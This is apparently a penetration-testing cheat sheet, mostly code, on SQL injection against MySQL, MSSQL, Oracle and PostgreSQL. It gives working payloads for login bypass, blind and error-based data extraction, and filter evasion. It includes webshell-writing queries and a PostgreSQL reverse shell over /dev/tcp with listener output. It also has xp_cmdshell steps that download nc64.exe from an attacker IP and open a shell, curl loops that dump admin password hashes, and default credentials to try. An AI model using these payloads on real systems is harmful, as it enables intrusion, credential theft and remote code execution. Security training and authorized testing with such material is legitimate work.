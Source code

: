 # SQLi

<details>

<summary>Common SQLi payload</summary>

```sql
' OR 1=1-- -

# LIMIT X,1 to get the xth user (0 based).
' OR 1=1 LIMIT 1-- -
' or 1=1 LIMIT 0,1-- -

' OR '1'='1
```

</details>

### Determing which type of DB

| Type of DB | Method                                                           |
| ---------- | ---------------------------------------------------------------- |
| MySQL      | `SELECT @@version`                                               |
| SQLite     | `SELECT sqlite_version()`                                        |
| Microsoft  | `SELECT @@version`                                               |
| PostgreSQL | `SELECT version()`                                               |
| Oracle     | `SELECT banner FROM v$version`, `SELECT version FROM v$instance` |

### Commenting in SQL

<figure><img src="../.gitbook/assets/sql comments.jpg" alt=""><figcaption></figcaption></figure>

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.

> When using `#` as a comment for MySQL, there’s no need to add a space after.

### Nuances between diff DB

* Oracle requires every `SELECT` statement to include a `FROM` attribute. (`UNION SELECT NULL`will fail, need to be `UNION SELECT NULL FROM DUAL` instead) (`DUAL` is a globally accessible table)

<details>

<summary>SQLi to PHP Webshell (RCE)</summary>

```bash
debug.php?id=1 union all select 1, 2, "<?php echo '<pre>' . shell_exec($_GET['cmd']);?> . '</pre>';?>" into OUTFILE "c:/xampp/htdocs/backdoor.php"
```

```sql
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'  
```

</details>

#### Overview for SQLi <a href="#overview-for-sqli" id="overview-for-sqli"></a>

| No.   | Steps                                                                          | Method                                                                                                                                                                                                         |
| ----- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1     | Identify instances where application access DB                                 | Look at URL param, cookies, POST data, HTTP headers                                                                                                                                                            |
| 2     | Try injecting SQL                                                              | Start with single quotes, concatenator characters, eg: `' 'FOO`                                                                                                                                                |
| 3     | Determine no. of cols                                                          | `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` … until there’s no error                                                                                                                           |
| 4.1   | Determine which cols have string data type                                     | `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` … until there’s no error                                                                   |
| 4.2   | Determine which cols have numeric data type                                    | `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`… until there’s no error                                                                          |
| 4.3   | Use conditional responses if there’s no direct method of transmitting data     | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`                                                                                                       |
| 4.4.1 | Use conditional errors if there’s no noticeable effect on application behavior | `SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username            |
| 4.4.2 | Conditional errors (time delay)                                                | `' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server’s response. |
| 5     | Extracting table and cols name                                                 | `' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`                                                                                                                            |
| 6.1   | Dumping DB using multi cols with string data type                              | `' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`                                                                                                                                       |
| 6.2   | Dumping DB using 1 col with string data type                                   | `SELECT CONCAT(username,':',password), NULL, NULL from users -- -`                                                                                                                                             |
| 6.3   | Dumping DB using multi cols with numeric data type                             | `' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., ‘q’)                                                                                      |
| 6.4   | Dumping DB using conditional responses                                         | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter ‘q’                                                                                                      |

<details>

<summary>Search for interesting table, col name</summary>

```sql
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```

</details>

<details>

<summary>Concat multi cols to single col</summary>

### Oracle

```sql
SELECT table_name||':'||column_name FROM
all_tab_columns
```

### MSSQL

```sql
SELECT table_name+':'+column_name from information_schema.columns
```

### MySQL

```sql
SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```

</details>

#### Bypassing filters <a href="#bypassing-filters" id="bypassing-filters"></a>

| Types of blacklisting filter | Ways to bypass                                                                                                                                                                                                    |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strings                      | Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`                                                                                                                            |
| Comments                     | Use `' OR 'a'='a` instead of `' OR 1=1 -- -`                                                                                                                                                                      |
| Keywords                     | Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54` |

#### SQLmap <a href="#sqlmap" id="sqlmap"></a>

| Types of attack                   | Methods                                                                                         |
| --------------------------------- | ----------------------------------------------------------------------------------------------- |
| POST request                      | `sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs` |
| GET request                       | `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`                     |
| Using Request file from Burpsuite | `sqlmap -r <path to .req file> -p user –dbs`                                                    |

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```

<details>

<summary>Second Order SQLi</summary>

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

</details>

<details>

<summary>Interacting with SQL servers</summary>

#### MySQL

```bash
mysql --host=192.168.163.220 -u root -proot 
```

```sql
SHOW DATABASES;
```

```sql
USE <database_name>;
```

```sql
SHOW TABLES;
```

```sql
SELECT * FROM <table_name>;
```

#### NoSQL (eg: MongoDB)

```bash
apt-get install mongodb-clients
mongo --host 192.168.192.110:27017
```

* Tables in MySQL \~ Collections in Mongo
* Rows in MySQL \~ Documents in Mongo
* Columns in MySQL \~ Fields in Mongo
* $and equivalent to AND in MySQL
* $or equivalent to OR in MySQL
* $eq equivalent to = in MySQL

```sql
SHOW databases;
```

```sql
USE <database_name>;
```

```sql
SHOW collections;
```

```sql
db.<collection_name>.find();
```

### PostgreSQL

```sql
psql -U christine -h localhost -p 1234
```

List existing databases:

```
\l
```

Select a database:

```
\c <database_name>
```

List the database's tables:

```
\dt
```

Dump tables' content:

```sql
SELECT * FROM <table_name>;
```

</details>

<details>

<summary>Logging in to MySQL</summary>

```bash
mysql --host=192.168.163.220 -u root -proot 
```

</details>

<details>

<summary>Logging in to MongoDB</summary>

```bash

mongo --host 192.168.192.110:27017
```

</details>

<details>

<summary>Logging in to PostgreSQL</summary>

```bash
psql -h 192.168.208.47 -p 5437 -U postgres 
```

Creds to try:

```bash
postgres:<blank>
postgres:postgres
admin:admin
```

</details>

<details>

<summary>PostgreSQL to reverse shell</summary>

Tells the backend database to create a new table utilizing a cmd\_exe function which then use to initiate a reverse shell

```sql
'; CREATE TABLE cmd_exec(cmd_output text); --
```

```sql
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.225/1234 0>&1'''; -- 
```

```sql
postgres-# \l
                                                List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------+----------+----------+------------+------------+------------+-----------------+-----------------------
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
(3 rows)

postgres-# \c postgres
psql (15.2 (Debian 15.2-2), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres-# CREATE TABLE cmd_exec(cmd_output text);
postgres=# COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/192.168.45.5/80 0>&1''';


┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.60]
└─# nc -lvp 80  
listening on [any] 80 ...
192.168.159.60: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.159.60] 44254
bash: cannot set terminal process group (177): Inappropriate ioctl for device
bash: no job control in this shell
postgres@326cfee15738:~/data$ whoami
whoami
postgres
```

</details>

<details>

<summary>Oracle SQLi</summary>

### Retrieve Current User

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(select user from dual))-- -
```

![](<../.gitbook/assets/image (1) (1) (1) (1).png>)

`WEB_APP`

### Retrieve Database

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT SYS.DATABASE_NAME FROM DUAL))-- -
```

![](<../.gitbook/assets/image (20).png>)

`XE`

### Retrieve tables

* Can only retrieve on table name at a time

![](<../.gitbook/assets/image (53).png>)

```bash
admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT username FROM (SELECT ROWNUM r,username,password FROM all_users ORDER BY username) WHERE r=1))-- AeSCD
```

### Bash scripting to retrieve all tables

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=${NUM}))-- AeSCD&password=sdfdsaf" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* Found `WEB_ADMINS` table

### Find Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT column_name FROM (SELECT ROWNUM r,column_name FROM all_tab_columns WHERE table_name = 'WEB_ADMINS') WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* ADMIN\_ID
* ADMIN\_NAME
* PASSWORD

### Dump Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT ADMIN_NAME FROM (SELECT ROWNUM r,ADMIN_NAME FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* user named `admin`

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT PASSWORD FROM (SELECT ROWNUM r,PASSWORD FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* password = `d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892` —> `adminadmin`

</details>

<details>

<summary>MSSQLi</summary>

```sql
' OR 1=1-- -
' UNION SELECT @@version,1-- -
' UNION SELECT DB_NAME(), 1-- -
' UNION SELECT table_name, 1 FROM information_schema.columns-- -
' UNION SELECT name, 1 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')-- -
' UNION SELECT CONCAT(id,',',name,',',pass), 1 FROM users-- -
```

### ALWAYS TEST FOR xp\_cmdshell in SQLi

```bash
python3 mkpsrevshell.py 192.168.45.162 443
# powershell -e JABjAGwAaQBlAG4A...

# SQLi Query for xp_cmdshell PS rev shell
' EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

### Manual xp\_cmdshell

```sql
#Check if Sysadmin --> will return 1
' UNION SELECT is_srvrolemember('sysadmin'), 1-- -

' UNION SELECT 'hi', 1;EXEC sp_configure 'show advanced options', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -
' UNION SELECT 'hi', 1;EXEC sp_configure 'xp_cmdshell', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -

' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c cd c:\windows\temp;wget http://192.168.45.197/nc64.exe -outfile nc64.exe'-- -
' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c c:\windows\temp\nc64.exe -e cmd.exe 192.168.45.197 443'-- -
```

### Obtain MSSQL Server Login Creds

<pre class="language-sql"><code class="lang-sql">' UNION SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash), 1 FROM master.sys.sql_logins-- -
<strong>
</strong><strong>#Artist name: sa-0x020017264e939f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e - From the year: 1
</strong></code></pre>

SA hash:

* 0200 —>version (SHA-2 512bit)
* Salt (4 Bytes) —> 17264e93
* Hash (64 Bytes) —> 9f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e

Cracking with hashcat:

```bash
hashcat -m 1710 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>Unique MSSQLi</summary>

### Susceptible to SQLi?

* put in `'` and crash occurred

### What the insert statement would look like

```sql
INSERT INTO users_DB (username, password) VALUES ('admin', 'admin')
```

### Where to get the Error-based MSSQL payloads?

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL)&#x20;

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

* However, the payloads will not work right off the bat because the context is that it’s an `insert` statement instead of the usual `select` statement.

### Show version MSSQL SQLi

```sql
' + cast((SELECT @@version) as int) + ')
```

so the new insert statement will be:

```sql
INSERT INTO users_DB (username, password) VALUES ('' + cast((SELECT @@version) as int) + ')', 'admin')
```

### Show DB in MSSQL

```sql
' + cast((SELECT DB_NAME()) as int) + ')
```

* DB name —> `newsletter`

### Show table names

* unable to dump more than 1 row at a time.
* concat all rows ([https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string](https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string))

```sql
' + cast((SELECT ',' + table_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* tables are called `users`

### Show Cols names

```sql
' + cast((SELECT ',' + column_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* Found cols: `email, userid, username`

#### Dump email,user\_id,username data

#### Dump Email

```sql
' + cast( (SELECT ',' + email AS 'data()' FROM users FOR XML PATH ('')) as int) + ') 
```

* Found the emails

#### Dump username

```sql
' + cast( (SELECT ',' + username AS 'data()' FROM users FOR XML PATH ('')) as int) + ')
```

* Found usernames

### Show all databases

```sql
' + cast( (SELECT ',' + name AS 'data()' FROM master..sysdatabases FOR XML PATH ('')) as int) + ')
```

* Found dbs

### Show table in archive DB

```sql
' + cast((SELECT name FROM archive..sysobjects WHERE xtype = 'U') as int) + ') 
```

* Found the `pmanager` table

### Show the cols in `archive` DB

```sql
' + cast((SELECT ',' + archive..syscolumns.name AS 'data()' FROM archive..syscolumns FOR XML PATH ('')) as int) + ') 
```

* Found this:

```sql
alogin ,id ,psw ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation
```

* There’s `id` and `psw`

### Dump the `psw` cols

```sql
' + cast((SELECT ',' + psw AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

Found password hashes

#### Dump `alogin` col

```sql
' + cast((SELECT ',' + alogin AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

</details>

<details>

<summary>Links</summary>

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</details>
